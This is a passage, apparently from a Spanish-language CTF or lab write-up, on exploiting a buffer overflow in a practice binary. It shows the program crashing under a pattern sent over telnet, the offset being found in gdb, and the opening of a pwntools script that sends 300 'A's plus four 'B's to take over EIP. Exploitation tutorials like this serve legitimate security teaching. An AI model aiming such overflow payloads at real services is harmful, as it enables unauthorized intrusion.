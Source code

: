 ![image](/assets/images/insecure/3.png)

En otra consola nos conectamos al binario mediante **telnet** con `telnet localhost 20201` y mandamos el patrón que hemos generado anteriormente.

Volvemos a la consola donde se está ejecutando **gdb** y vemos que la aplicación se ha terminado con **SIGSEV.**

![image](/assets/images/insecure/4.png)

Ahora tenemos que buscar el offset, el numero de bytes a partir del cual el programa falla. Para ello usamos el comando `pattern offset` junto con la dirección de memoria que nos indica:

![image](/assets/images/insecure/5.png)

Ahora que ya sabemos el offset vamos a crearnos un script en python usando la librería  **pwntools** de Python. En este primer script vamos a intentar ver si llena el registro **$eip** con la letra B (“\x42”). Para ello creamos un payload con 300 caracteres A más 4 B’s.

```bash
#!/usr/bin/env python3

from pwn import *

log.warning(f'Usage: python3 {sys.argv[0]} [ip:port]')
context.binary = 'secure_software'

payload = "A"*300 + "B"*4

if len(sys.argv) > 1:
    ip, port = sys.argv[1].split(':')
    p = remote(ip, port)
else:
```